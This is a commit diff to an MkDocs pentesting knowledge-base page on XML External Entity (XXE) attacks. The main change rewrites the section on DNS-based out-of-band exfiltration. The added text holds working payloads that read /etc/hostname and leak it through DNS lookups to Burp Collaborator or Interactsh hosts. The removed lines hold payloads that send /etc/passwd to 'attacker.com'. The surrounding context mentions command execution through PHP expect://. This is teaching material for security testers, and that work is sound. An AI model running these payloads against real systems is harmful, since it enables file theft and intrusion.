

Before and after one commit to HansMolemanPNG/hansmolemanpng.github.io, an MkDocs documentation site: the page built from docs/kb/injection-attacks/xxe.md, in a window 1280 px wide and 1400 px high, scrolled down 46726 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update xxe.md

````diff
--- a/docs/kb/injection-attacks/xxe.md
+++ b/docs/kb/injection-attacks/xxe.md
@@ -8,7 +8,6 @@ excerpt: |
     - Covering both fundamentals (for juniors) and advanced techniques (for experienced testers)
 tags: XXE, XML, SSRF, LFI, OOB, DTD, Blind XXE, SOAP
 ---
-
 
 # XML Fundamentals
 
@@ -125,7 +124,7 @@ When the parser encounters `<!ENTITY xxe SYSTEM "file:///etc/passwd">` followed
 
 The vulnerability is at step 3. The parser fetches whatever resource the entity points to without questioning whether it should. If the attacker controls the XML input, they control what the parser fetches.
 
------
+----
 
 # Context of XXE
 
@@ -167,7 +166,7 @@ Here the attacker is defining "example" and assigning the content of "/etc/passw
 
 XXE attacks require the application to accept XML from uncontrolled sources and parse it in an insecure way. Historically, many XML parsers were insecure by default and require the developer to explicitly limit their capabilities by setting specific flags on the parser in order to make it secure.
 
------
+----
 
 # XXE Taxonomy
 
@@ -222,7 +221,7 @@ XXE ATTACK TAXONOMY
 
 **Legend**: `[CORE]` = common, first to try | `[INT]` = intermediate, context-dependent | `[ADV]` = advanced, rare conditions
 
------
+----
 
 # Parser Behaviour
 
@@ -328,7 +327,7 @@ Java has the broadest protocol support which is why Java-specific techniques (ja
 - netdoc:// : The `netdoc://` protocol is a Java-internal alternative to `file://`, functionally equivalent for reading local files and occasionally used in XXE payloads to bypass WAF rules that block `file://` patterns. Oracle states that `netdoc` protocol is designed to handle network documents, but it can access local files like `/etc/passwd`. However, the `netdoc` protocol handler was officially removed in **JDK 9**. As a result, leveraging `netdoc://` in XXE exploitation is only feasible in legacy Java environments running **JDK 8 and earlier**.
 - expect:// : The `expect://` wrapper is not a built-in PHP feature but part of the **PECL expect extension**, which must be explicitly installed and is disabled by default. When active, it allows executing system commands directly from an XML entity, making it a particularly dangerous vector that can escalate XXE to **Remote Code Execution (RCE)**. Due to its non-default nature, this attack surface is rare in practice and fully dependent on whether the target environment has the extension installed.
 
------
+----
 
 # XXE Exploitation Model
 
@@ -423,6 +422,8 @@ Before diving into payloads, it helps to know when XXE testing is worth prioriti
 If the target matches any of these patterns and especially if it runs Java, it is worth spending time on XXE testing.
 
 **Tip:** If the API only accepts JSON, do not give up immediately. Try sending an XML payload with `Content-Type: application/json` — some frameworks parse the body based on content rather than the declared content-type. This technique is covered in [Content-Type Switching](#content-type-switching).
+
+----
 
 ## Testing on REST APIs
 
@@ -603,11 +604,13 @@ Does the application accept XML input?
                         - Time-based side-channel detection
 ```
 
------
+----
 
 # Core Techniques
 
 These are the standard XXE exploitation techniques. They work on most vulnerable parsers and should be the first ones to try.
+
+----
 
 ## Local File Inclusion (LFI)
 
@@ -673,6 +676,7 @@ Some notes on Windows paths: use forward slashes even on Windows (`file:///C:/pa
 ##### Note on UNC path syntax
 The forward slash rule applies to local Windows file paths (`file:///C:/path/to/file`). UNC paths are an exception — they require the double backslash notation (`\\server\share\file`) because that is how the UNC convention is defined. Some parsers also accept forward slash equivalents (`file:////server/share/file`), but backslash notation is more broadly supported for UNC across Java-based parsers.
 
+----
 
 ## Server Side Request Forgery (SSRF)
 
@@ -714,6 +718,8 @@ SSRF through XXE is not limited to reading a single URL. By varying the port and
 
 The parser behavior reveals information about the target: a connection refused error means the port is closed, a timeout suggests a firewall is filtering traffic, and actual content in the response confirms the service is running and accessible. Even when the response is not reflected directly, timing differences between open and closed ports can confirm which services are running.
 
+----
+
 ## Out-of-Band (OOB) Exfiltration via Malicious DTDs
 
 Up to this point, all techniques assume the server sends back the file content or error message in its response. But what happens when the application does not return anything useful? The response is a generic 200 OK or blank page, and nothing we inject shows up anywhere. This is called **blind XXE** — the vulnerability exists but we cannot see the output directly.
@@ -853,6 +859,8 @@ The same way we can read files by attaching their content to the error message,
 %eval;
 %error;
 ```
+
+----
 
 ## Denial of Service
 
@@ -884,11 +892,13 @@ Simpler variant (Quadratic Blowup):
 
 Both attacks cause memory exhaustion, CPU exhaustion, disk exhaustion (in some cases) and denial of service.
 
------
+----
 
 # Intermediate Techniques
 
 These techniques require specific context to work: a particular entry point (SOAP, file upload), a specific parser behavior (XInclude support) or a misconfiguration in content negotiation. They are not rare but they depend on the target environment.
+
+----
 
 ## XXE via File Upload
 
@@ -970,6 +980,8 @@ Same extraction/repackaging process as XLSX.
 ### General strategy
 
 The approach is the same for all XML-based formats (SVG, XLSX, DOCX, ODS, ODP, XML, XHTML): include a basic entity, upload, check output. If output is not reflected use blind XXE. Some servers validate MIME types so you may need to craft polyglot files.
+
+----
 
 ## XXE in SOAP
 
@@ -1095,6 +1107,8 @@ SOAP XXE is best approached as a parsing pipeline problem: the question is alway
 
 From a testing perspective: start with body injection using a safe entity (an internal entity referencing a literal string, then `/etc/hostname`). If the message is rejected with a DOCTYPE or DTD-related error, the stack is enforcing a DTD check at some point in the pipeline — though the error alone does not indicate whether entity resolution had already occurred before that check. If body injection produces no output but is not rejected, escalate to header injection, then to WS-Addressing with a blind OOB payload to determine whether entity resolution is occurring silently. If none of those produce results, consider XInclude as an alternative, bearing in mind that XInclude processing must be explicitly enabled in most parsers and is off by default in many common implementations — it is worth attempting only where there is reason to believe XInclude support is active.
 
+----
+
 ## XXE via XInclude
 
 XInclude is an XML specification that allows including external content directly inside an XML document. It does not require a `<!DOCTYPE>` declaration, which makes it useful in two distinct scenarios: as an alternative when DOCTYPE processing has been explicitly disabled, and as an independent attack surface on any endpoint that processes XML with XInclude support enabled.
@@ -1165,6 +1179,8 @@ XInclude supports a `<xi:fallback>` element that is used when the primary includ
 
 If the file is readable the contents appear in the response. If it is not, the fallback text appears instead. The distinction between these two responses allows filesystem enumeration without relying on error messages.
 
+----
+
 ## Content-Type Switching
 
 Some APIs accept multiple content types and internally convert between formats. Many parsers don't validate the actual content against the declared content-type so we can try submitting XML payloads with different headers.
@@ -1189,6 +1205,8 @@ Content-Type: application/json
 
 APIs with poor input validation might accept `text/xml`, `application/xml`, `application/json`, `text/plain` or even missing content-types with XML content. Try the XXE payload with various content-type headers, with null/missing headers, and with charset parameters (`application/xml; charset=utf-8`).
 
+----
+
 ## Handling Files with XML-Special Characters
 
 When targeting files that contain special XML characters (`<`, `>`, `&`) direct entity inclusion fails because those characters break XML parsing. This is a common limitation when trying to read config files, HTML files or source code.
@@ -1238,6 +1256,8 @@ When the parser loads the external DTD, `%all` defines the general entity `&cont
 
 These techniques require specific technology stacks, rare configurations or complex payload crafting. They are not the first thing to try but can be critical when standard techniques fail. This section also includes environment-specific escalation paths (like RCE through PHP expect:// or Java deserialization) which depend on very particular conditions in the target.
 
+----
+
 ## Repurposing Local DTDs (Blind XXE)
 
 When OOB connections are blocked and the application only returns errors, we can use pre-existing DTD files on the system to build our exfiltration chain without needing network access.
@@ -1291,8 +1311,6 @@ For each entity that appears in both outputs, check the context of its reference
 - If it appears as a standalone call like `%ISOamso;` at the root of the DTD → **root-level injection point**
 
 When a DTD offers both types, root-level injection points tend to produce simpler payloads, though both are equally valid paths to exploitation.
-
------
 
 ### Common DTD Paths — Linux
 
@@ -1331,8 +1349,6 @@ To check if a DTD exists we load it and check the parser response:
 ```
 
 Error-based feedback indicates successful DTD loading. If we get a different error than “No such file or directory” or no error at all we know the file exists.
-
------
 
 ### Exploitation Using fonts.dtd
 
@@ -1460,8 +1476,6 @@ When targeting a declaration-embedded injection point in a different DTD, the pa
 3. **Identify what follows the entity reference in that declaration.** This is the remainder your padding must absorb. Look for injection points where this remainder is minimal — ideally just a quantifier (`*`, `+`, or `?`) followed by `>`, leaving only `)*>`, `)+>`, or `)?>`  as the leftover. These produce clean, balanced assemblies.
 4. **Construct the padding.** Open a new `<!ELEMENT name (placeholder` where `placeholder` is any valid XML name. Remember that the closing delimiter `'` of the entity value is not part of the injected content — the padding ends with `(placeholder`, and the remainder of the original declaration provides the closing `)`.
 5. **Verify the assembled output is valid DTD.** Mentally substitute your override into the original declaration and check that every resulting `<!ELEMENT>` and `<!ENTITY>` is syntactically complete. Parentheses should balance cleanly. If they do not, choose a different injection point.
-
------
 
 ### Exploitation Using docbookx.dtd
 
@@ -1521,8 +1535,6 @@ Both techniques exploit the same fundamental mechanism — overriding a paramete
 errorMessage: "/nonexistent/root:x:0:0:root:/root:/bin/bash"
 ```
 
------
-
 ### Requirements for Robust Payloads
 
 Creating a working payload for local DTD-based XXE exploitation requires careful attention to XML and DTD parsing rules. Below are the key requirements:
@@ -1592,29 +1604,80 @@ This technique sidesteps that restriction entirely. Rather than chaining paramet
 
 When `%local_dtd;` is then expanded, execution moves into the external DTD context — where parameter entity chaining is explicitly permitted by the spec. The malicious logic embedded inside the overridden entity executes there, not in the internal subset, which is why spec-compliant parsers do not reject it. This holds true for both injection types — the type determines the payload structure, not the underlying mechanism.
 
+----
+
 ## DNS-Based OOB Exfiltration
 
-When HTTP/HTTPS connections are blocked by firewall rules, DNS exfiltration provides an alternative. DNS traffic is rarely fully blocked so even if the HTTP request never reaches us, the DNS query still happens when the parser tries to resolve the domain:
-
-```xml
-<!ENTITY % file SYSTEM "file:///etc/passwd">
-<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://%file;.attacker.com/'>">
-%eval;
-%exfiltrate;
-```
-
-Services like **Interactsh** provide automatic DNS logging:
-
-```xml
-<!ENTITY % file SYSTEM "file:///etc/passwd">
-<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://%file;.interactsh-domain.com/'>">
-%eval;
-%exfiltrate;
-```
-
-There are two important limitations to keep in mind. First, DNS has strict length limits: each label (subdomain component) can be at most 63 characters and the full domain name cannot exceed 253 characters. Second — and this is easy to overlook — DNS labels only accept alphanumeric characters (a-z, 0-9) and hyphens. Characters like `:`, `/`, newlines and spaces will break the query. Since files like `/etc/passwd` are full of these characters, the payloads above will only work as-is for files with very simple content (like `/etc/hostname` which is typically a single word).
-
-To exfiltrate anything meaningful we need to encode the data before embedding it in the subdomain. Base32 is the safest option because its output only contains A-Z and 2-7 — all valid DNS characters. Base64 works in some contexts but its output includes `+`, `/` and `=` which are also invalid in labels. In PHP environments we can combine `php://filter/convert.base64-encode` with the exfiltration payload to get clean ASCII before it hits the DNS query. For files longer than 63 characters, split the encoded data into chunks across multiple labels or multiple queries.
+The standard OOB exfiltration technique covered in [Out-of-Band Exfiltration via Malicious DTDs](#out-of-band-oob-exfiltration-via-malicious-dtds) requires the parser to load an external DTD over HTTP and then make a second outbound HTTP request to deliver the stolen data. Both steps, in the common HTTP-based OOB pattern, depend on outbound TCP connectivity. In environments where egress filtering blocks outbound TCP connections, neither step completes — the DTD never loads, and the data never arrives.
+
+DNS provides an alternative channel. When the parser attempts to resolve a hostname, that query typically goes first to the system-configured resolver over UDP/53. If that resolver can resolve the attacker's domain, the query will eventually reach the attacker-controlled authoritative nameserver — without requiring a direct TCP connection from the target machine. DNS resolution is not always UDP, and the path to the authoritative nameserver is not necessarily direct, but DNS traffic is rarely subject to the same egress filtering as outbound HTTP, which is what makes it a viable fallback channel.
+
+This technique is only applicable under two conditions. First, the firewall blocks outbound TCP but permits DNS resolution to propagate externally. Second — and this is the critical constraint — the XML parser must tolerate parameter entity chaining inside the internal DTD subset. The W3C XML specification clearly states that parameter entity references cannot appear within markup declarations in the internal subset. Spec-compliant parsers, including many modern parser implementations, will reject this payload. Parsers that do not enforce this restriction process the chaining anyway. The reason this matters is that without inline chaining the entire payload cannot be self-contained — and loading an external DTD requires outbound TCP, which is the channel we are trying to avoid. If inline chaining is rejected, a local-DTD repurposing approach may still work in no-outbound-TCP environments, provided the application exposes a usable error channel — see [Repurposing Local DTDs (Blind XXE)](#repurposing-local-dtds-blind-xxe).
+
+### How the Exfiltration Channel Works
+
+The parser constructs a URL using the expanded value of `%file;` as the hostname component and attempts to resolve it. Tools like **Burp Collaborator** and **Interactsh** act as authoritative DNS servers for their respective domains (`oastify.com` and `oast.pro`) and log every subdomain queried under any identifier they issue, including arbitrary prefixes. A query for `prod-server-01.abc123.oastify.com` is logged with the full subdomain intact — `prod-server-01` is the exfiltrated data. No HTTP connection needs to complete for the interaction to be captured. PortSwigger documents this explicitly: a vulnerable application may perform a DNS lookup first and then may or may not initiate a subsequent network connection such as HTTP.
+
+### Limitations
+
+Two hard constraints define what is exfiltrable via DNS in the straightforward form shown in this section.
+
+**DNS label charset.** DNS labels only accept alphanumeric characters (`a-z`, `0-9`) and hyphens. Characters like `:`, `/`, newlines and spaces are invalid and will cause the parser to reject the constructed URL or produce an unparseable query. `/etc/hostname` is the canonical target precisely because it is typically a short alphanumeric string with no special characters. `/etc/passwd` fails immediately — it contains `:`, `/` and newlines on every line.
+
+**DNS length limits.** Each label is capped at 63 characters and the full domain name cannot exceed 253 characters. Since the Collaborator or Interactsh identifier itself consumes a significant portion of that budget, the space available for exfiltrated data in a single query is short.
+
+For content that contains non-DNS-safe characters or spans multiple lines, encoding is required before the data can be embedded in a label. Base32 is the most suitable encoding for this channel — its output only contains `A-Z` and `2-7`, all valid DNS characters. Base64 is not suitable because its output includes `+`, `/` and `=`, which are invalid in labels. However, there is no native mechanism in the XML parser to pre-encode the expanded value of `%file;` before it is interpolated into the URL — PHP's `php://filter` wrappers can base64-encode file contents (see [PHP Wrappers](#php-wrappers)), but Base64 output is not DNS-safe, and there is no equivalent Base32 filter available natively. Implementing encoding for DNS exfiltration inline is therefore not straightforward. In practice, tooling is often used to automate chunking, payload generation, and correlation for DNS-based exfiltration workflows. For the direct, unencoded approach described here, single-line DNS-safe files are the realistic target.
+
+### Setup
+
+You need an authoritative nameserver for a domain you control, configured to log all incoming queries. Two practical options:
+
+**Burp Collaborator** (Burp Suite Professional): Generate a payload from the Collaborator tab. This gives you an identifier like `abc123.oastify.com`. Burp is the authoritative nameserver for `oastify.com` and logs every subdomain queried under your identifier. Poll the Collaborator tab after sending the payload to see logged interactions.
+
+**Interactsh**: Open source alternative by ProjectDiscovery. Once running, it provides a unique domain like `abc123.oast.pro` and displays incoming interactions in real time, including the full subdomain of every DNS query received. The exfiltrated data will appear as a prefix to your unique identifier. Refer to the [Interactsh GitHub repository](https://github.com/projectdiscovery/interactsh) for installation and usage instructions.
+
+### Confirming Parser Compatibility
+
+Before attempting exfiltration, verify that the target parser tolerates parameter entity chaining in the internal subset. Send this probe:
+
+```xml
+<?xml version="1.0"?>
+<!DOCTYPE foo [
+  <!ENTITY % eval "<!ENTITY &#x25; probe SYSTEM 'http://canary.YOUR-IDENTIFIER.oastify.com/'>">
+  %eval;
+  %probe;
+]>
+<foo></foo>
+```
+
+If you receive a DNS interaction on `canary.YOUR-IDENTIFIER.oastify.com`, the parser tolerates chaining and the technique is viable. If the parser returns a `parameter entity references are not allowed in internal DTD subsets` error, it is spec-compliant — use [Repurposing Local DTDs (Blind XXE)](#repurposing-local-dtds-blind-xxe) instead.
+
+Note that receiving a DNS interaction without a corresponding HTTP callback is consistent with TCP egress filtering at the network layer, but is not conclusive on its own. Other reasons include connection timeouts, resolver-level failures, the application aborting before opening the HTTP connection, or other network-level restrictions that are unrelated to egress filtering.
+
+### Exfiltration Payload
+
+The entire chain runs inline in the internal DTD subset, with no external DTD required:
+
+```xml
+<?xml version="1.0"?>
+<!DOCTYPE foo [
+  <!ENTITY % file SYSTEM "file:///etc/hostname">
+  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://%file;.YOUR-IDENTIFIER.oastify.com/'>">
+  %eval;
+  %exfil;
+]>
+<foo></foo>
+```
+
+Replace `YOUR-IDENTIFIER.oastify.com` with your Collaborator payload or Interactsh domain.
+
+**Explanation:**
+
+- `%file;` loads the contents of `/etc/hostname` — for example, `prod-server-01`.
+- `%eval;` expands and defines `%exfil;` as an entity whose SYSTEM identifier is `http://prod-server-01.YOUR-IDENTIFIER.oastify.com/`.
+- `%exfil;` triggers the parser to attempt to resolve that hostname. The DNS query propagates through the resolver chain and reaches your authoritative nameserver, logging `prod-server-01` as the prefix — regardless of whether the subsequent TCP connection completes.
+
+----
 
 ## PHP Wrappers
 
@@ -1648,8 +1711,6 @@ More examples:
 ##### ⚠️ Character restrictions in expect:// URIs
 
 There is a catch when running commands with arguments: PHP's XML parser treats the `expect://` URI literally and rejects it if it contains spaces, `>`, `&` or other special characters. A payload like `expect://cat /etc/passwd` will fail with an "Invalid URI" error. URL encoding (`%20`, `+`) does not help — the parser does not decode it. XML character references (`&#x20;`) do not work either.
-
-----
 
 The workaround is to replace spaces with `$IFS` — the shell Internal Field Separator variable. When the next argument starts with letters, wrap it in single quotes so the shell does not try to read it as part of the variable name:
 
@@ -1718,6 +1779,8 @@ Other available filters:
 ```xml
 <!ENTITY xxe SYSTEM "zip:///path/to/archive.zip#filename.xml">
 ```
+
+----
 
 ## Java Protocol Exploitation
 
````
Also changed, not shown: other parts of docs/kb/injection-attacks/xxe.md (+1 -1 lines).
